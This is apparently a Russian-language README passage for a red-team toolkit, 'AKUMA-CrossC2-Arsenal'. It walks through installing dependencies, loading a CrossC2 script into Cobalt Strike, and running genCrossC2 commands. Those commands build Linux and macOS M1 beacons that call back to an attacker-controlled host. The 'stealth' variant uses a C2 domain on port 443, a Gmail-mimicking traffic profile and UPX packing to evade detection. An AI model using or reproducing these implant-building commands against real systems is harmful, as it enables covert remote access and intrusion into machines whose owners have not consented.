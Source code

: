 ### 1. Подготовка окружения
```bash
# Устанавливаем необходимые зависимости
sudo apt update && sudo apt install -y git openjdk-11-jdk

# Клонируем арсенал
git clone https://github.com/sweetpotatohack/AKUMA-CrossC2-Arsenal.git
cd AKUMA-CrossC2-Arsenal
```

### 2. Загрузка в Cobalt Strike
```bash
# В Cobalt Strike Client:
# Cobalt Strike -> Script Manager -> Load -> scripts/CrossC2Kit_Loader.cna
```

### 3. Генерация beacon'ов

#### 🐧 Базовый Linux beacon
```bash
./tools/genCrossC2.Linux \
  192.168.1.100 \
  4444 \
  /path/to/.cobaltstrike.beacon_keys \
  null \
  Linux \
  x64 \
  ./evil_beacon \
  raw
```

#### 🎭 Стелс-beacon с C2 профилем
```bash
./tools/genCrossC2.Linux \
  your.c2domain.com \
  443 \
  /path/to/.cobaltstrike.beacon_keys \
  ";;./profiles/gmail-profile.profile" \
  Linux \
  x64 \
  ./stealth_beacon \
  upx
```

#### 🍎 macOS M1 beacon
```bash
./tools/genCrossC2.Linux \
  192.168.1.100 \
  4444 \
  /path/to/.cobaltstrike.beacon_keys \
  null \
  MacOS \
  M1 \
  ./macos_beacon \
  raw
```
